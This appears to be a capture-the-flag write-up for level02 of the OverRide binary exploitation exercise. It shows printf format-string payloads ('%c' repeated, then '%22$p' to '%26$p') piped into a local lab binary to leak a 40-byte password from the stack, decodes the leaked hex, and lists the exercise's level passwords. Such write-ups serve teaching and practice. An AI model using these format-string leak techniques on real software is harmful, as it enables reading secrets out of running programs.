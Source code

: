 # Level 02
*password : PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv*

## Analyze

```
scp -P 4242 level02@192.168.56.109:level02 binary/
```

## printf exploit

**objective** : use printf to print the pass

size of the pass : 40\
40 / 8 = 5\
We are looking for 5 64bits addresses

```
$ python -c 'print "%c," * 50' > /tmp/level02 ; cat /tmp/level02 | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
�,,%,*,*,�,%,,,c,%,,,c,%,,,,,,,,H,Q,X,s,M,,%,,,c,%,,,c, does not have access!
```
`H,Q,X,s,M` this part looks like the password.\
So the offset is 22.

```
level02@OverRide:~$ python -c 'print " %22$p %23$p %24$p %25$p %26$p"' > /tmp/level02 ; cat /tmp/level02 | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

0x756e505234376848 => 4868373452506e75 = Hh74RPnu\
0x45414a3561733951 => 51397361354a4145 = Q9sa5JAE\
0x377a7143574e6758 => 58674e5743717a37 = XgNWCqz7\
0x354a35686e475873 => 7358476e68354a35 = sXGnh5J5\
0x48336750664b394d => 4d394b6650673348 = M9KfPg3H

password: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
